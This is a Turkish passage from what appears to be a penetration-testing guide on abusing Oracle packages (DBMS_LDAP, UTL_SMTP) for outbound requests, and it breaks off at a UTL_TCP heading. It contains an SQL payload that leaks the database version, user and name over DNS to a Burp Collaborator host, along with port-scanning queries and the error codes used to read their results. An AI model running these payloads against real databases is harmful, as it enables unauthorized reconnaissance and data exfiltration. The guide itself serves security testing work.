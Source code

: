 Bu kaba arama, `DBMS_LDAP` gibi paketleri açıkça atlıyor (bir ana bilgisayar adı ve port numarası geçişine izin verir) çünkü [belgelendirme sayfası](https://docs.oracle.com/database/121/ARPLS/d_ldap.htm#ARPLS360) sizi [farklı bir konuma](https://docs.oracle.com/database/121/ARPLS/d_ldap.htm#ARPLS360) yönlendiriyor. Bu nedenle, dışa istekler yapmak için kötüye kullanılabilecek başka Oracle paketleri de olabilir, bunları atlamış olabilirim.

Her durumda, keşfettiğimiz ve yukarıda listelediğimiz bazı paketlere bir göz atalım.

**DBMS_LDAP.INIT**

`DBMS_LDAP` paketi, LDAP sunucularından veri erişimine olanak tanır. `init()` fonksiyonu, bir LDAP sunucusuyla bir oturum başlatır ve bir ana bilgisayar adı ve port numarasını argüman olarak alır.

Bu fonksiyon, aşağıdaki gibi DNS üzerinden veri sızdırma gösterimi için daha önce belgelenmiştir.
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
Ancak, fonksiyonun bir ana bilgisayar adı ve bir port numarasını argüman olarak kabul ettiğini göz önünde bulundurursak, bunu bir port tarayıcı gibi çalışmak için de kullanabilirsiniz.

İşte birkaç örnek
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
`ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` hatası, portun kapalı olduğunu gösterirken, bir oturum değeri portun açık olduğunu işaret ediyor.

**UTL_SMTP**

`UTL_SMTP` paketi, SMTP üzerinden e-posta göndermek için tasarlanmıştır. [Oracle belgeleri sitesinde sağlanan örnek, bu paketi kullanarak nasıl e-posta gönderebileceğinizi göstermektedir](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478). Ancak bizim için ilginç olan, bir ana bilgisayar ve port belirtme yeteneğidir.

Aşağıda, 2 saniyelik bir zaman aşımı ile `UTL_SMTP.OPEN_CONNECTION` fonksiyonu ile basit bir örnek gösterilmektedir.
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
`ORA-29276: transfer timeout` açık bir portun olduğunu gösterir ancak SMTP bağlantısı kurulmamıştır, `ORA-29278: SMTP transient error: 421 Service not available` ise portun kapalı olduğunu gösterir.

**UTL_TCP**
